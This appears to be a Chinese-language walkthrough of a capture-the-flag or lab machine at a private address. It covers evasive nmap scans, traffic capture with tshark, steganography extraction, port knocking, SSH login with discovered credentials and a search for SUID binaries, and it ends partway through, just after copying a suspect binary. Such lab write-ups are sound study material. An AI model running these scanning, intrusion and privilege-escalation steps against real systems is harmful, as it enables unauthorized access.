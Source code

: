 # Nmap 扫描

# 端口和服务识别

```
sudo nmap --min-rate 10000 -p- 10.10.10.20
```

![[Pasted image 20250624162048.png]]

未发现任何开放的端口

## 数据包分片扫描

```
sudo nmap -f --min-rate 10000 -p- 10.10.10.20
```

![[Pasted image 20250624162225.png]]

还是未发现任何开放的端口

## 源端口伪装扫描

```
sudo nmap --source-port 53 --min-rate 10000 -p- 10.10.10.20 
```

![[Pasted image 20250624162347.png]]

还是未发现任何开放端口

## 随机端口顺序扫描

```
sudo nmap -r --min-rate 10000 -p- 10.10.10.20
```

![[Pasted image 20250624162455.png]]

还是未发现任何开放端口

## TCP Windows 扫描

```
sudo nmap --scanflags URGPSHFIN --min-rate 10000 -p- 10.10.10.20 
```

![[Pasted image 20250624162613.png]]

还是未发现任何开放的端口

## 慢速扫描

```
sudo nmap -T2 -p- 10.10.10.20
```

太慢了，无结果，暂时先跳过

# 流量分析

```
tshark -i eth0 -f "host 10.10.10.20"
```

![[Pasted image 20250624162810.png]]

捕捉流量

```
tshark -i eth0 -f "host 10.10.10.20" -w flu.pcap

tshark -r flu.pcap

tshark -r flu.pcap -V
```

![[Pasted image 20250624163016.png]]

转换为 ASCII 字符串

```
tshark -r flu.pcap -T fields -e data | tr -d '' | xxd -r -p
```

![[Pasted image 20250624163223.png]]

扫描 1440 端口

```
sudo nmap -sT -sU -p1440 10.10.10.20
```

![[Pasted image 20250624163547.png]]

尝试连接 1440

```
nc -u 10.10.10.20 1440
```

![[Pasted image 20250624163649.png]]

此路不通通过管道符将发射密码给他试试

```
echo "DS-1@OBS" | nc -u 10.10.10.20 1440 
```

有一长串类似 base64 的回显，保存下来

```
echo "DS-1@OBS" | nc -u 10.10.10.20 1440 | tee mass
```

![[Pasted image 20250624164027.png]]

解除 base64

```
cat mass | base64 -d > x

file x
```

![[Pasted image 20250624164218.png]]

发现是 jgp

```
mv x x.jpg

open x.jpg
```

![[Pasted image 20250624164338.png]]

留意右下角的 code to unlock，可能是密码

# 图片分析

查看隐写情况

```
steghide extract -sf x.jpg
```

![[Pasted image 20250624164707.png]]

查看提取的内容

![[Pasted image 20250624164737.png]]

# 端口敲门

```
knock -v 10.10.10.20 197 719 801 983
```

![[Pasted image 20250624164912.png]]

```
sudo nmap -sT -p10110 10.10.10.20
```

![[Pasted image 20250624164959.png]]

```
sudo nmap -sT -sC -sV -p10110 10.10.10.20
```

![[Pasted image 20250624165103.png]]

发现 10110 是 ssh 服务

# ssh 服务渗透

尝试连接

```
sudo ssh root@10.10.10.20 -p 10110
```

![[Pasted image 20250624165218.png]]

发现一个用户名为 erso，密码为 lyra13

```
sudo ssh erso@10.10.10.20 -p 10110
```

进入系统

![[Pasted image 20250624165405.png]]

# Linux 提权

查看 suid 位可执行文件

```
find / -perm /u=s,g=s -type f 2>/dev/null
```

![[Pasted image 20250624170238.png]]

发现可疑文件 /bin/dartVader

# 主函数与反汇编

将文件拿到 kali 当中

```
scp -P 10110 -q erso@10.10.10.20:/bin/dartVader .
```
